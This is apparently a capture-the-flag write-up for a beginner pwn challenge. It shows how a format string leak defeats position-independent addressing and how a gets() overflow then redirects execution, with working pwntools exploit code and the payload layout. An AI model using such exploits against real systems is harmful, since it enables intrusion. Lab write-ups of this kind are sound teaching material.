

# Intro to Pwning 1

## Information
Category: Pwn   
Difficulty: Baby   
Author: LiveOverflow   
First Blood: fipso   
Description: Service running at: hax1.allesctf.net:9100   


## Solution

Looking at the supplied source code gives us enough information to get a good idea what we are to exploit here. We need to somehow return into the function
WINgardium_leviosa().      
To do so, we have to override the return address of the current function frame on the stack. However, it is not as easy as it sounds as the binary is compiled with position  independant code enabled.

First, lets take a closer look at the code from a hacker perpective

In the main function, two functions are called whose potential exploitable characteristics are shown here:

### welcome():
```c
void welcome() {
    char read_buf[0xff];
    printf("Enter your witch name:\n");
    gets(read_buf);
    printf("┌───────────────────────┐\n");
    printf("│ You are a Hufflepuff! │\n");
    printf("└───────────────────────┘\n");
    printf(read_buf);
}
```
In this function we able to exploit a buffer overflow vulnerability and format string vulnerablity.
However, using the first excludes the latter in terms of usuability.

### AAAAAAAA():
```c
void AAAAAAAA() {
    char read_buf[0xff];
    
    printf(" enter your magic spell:\n");
    gets(read_buf);
    if(strcmp(read_buf, "Expelliarmus") == 0) {
        printf("~ Protego!\n");
    } else {
        printf("-10 Points for Hufflepuff!\n");
        _exit(0);
    }
}
```
Here, we can again give input over an insecure function and overflow the stack


So we need to get the base address of the binary first, which we can accomplish by exploiting a format string vulnerability in a printf() function.
This can leak various important refrences that exist in the upper stack frames, but we are only interested in some pointer into our binary image, so we
focus on the return pointers.

Next, knowing the correct binary offset, we can calculate the current address of WINgardium_leviosa() and take the next opportunity in the AAAAAAAAA() 
function to overwrite the return address of the current stack frame. 

To craft our local version of the exploit, we first import pwntools and launch the binary.   

```python
#!/usr/bin/python
from pwn import *

p = process("../resources/pwn1")
print("attached to process ")
```

We then leak a portion of the stack to get some return pointer to know the binarys location in memory. 
In this case I didnt actually calculate the base address of the binary, but went straight from knowing some address pointing into main() to 
calculating the address of WINgardium_leviosa()   

```python
fstring = "%p " * 64
p.recvuntil("Enter your witch name:\n")
p.sendline(fstring)
leak = p.recvuntil(" enter your magic spell:\n")
addr_arr = leak.split(" ")

print("some ret address in main stack frame: ")
print(addr_arr[43])

p_main = addr_arr[43]
p_win = int(p_main, 16) - 0x135 # const

p_ret_win = p_win + 0x36 # const
print("address of win: ")
print(hex(p_win))
print("address of win_ret")
print(hex(p_ret_win))

```

Knowing the address of WINgardium_leviosa(), we can now finally convieniently conduct our buffer overflow. 
We must not forget to include the "Expelliarmus" string in the beginning.   

```python
# create payload
s = "Expelliarmus\x00" # String
s += ((0xff - (len(s)+1))+ 2) * 'S' # Padding
s += 8 * 'B' # Base Ptr

r = p64(p_ret_win, endian='little')
a = p64(p_win, endian='little')
#raw_input("attach gdb")
p.sendline( s + r + a )
print("Payload:")
print(s + r + a)
p.interactive()
```

Replacing "process" with "remote" and its correct parameters, we can get a shell on the server and not just locally.




flag: CSCG{NOW_PRACTICE_MORE}

## Prevention 
A possible fix for this issue could include sanitizing user input before echoing it via printf(). Outdatad functions like
gets() should also be avoided. Furthermore, it can be advised that any critical program should be compiled without -fno-stack-protector. 

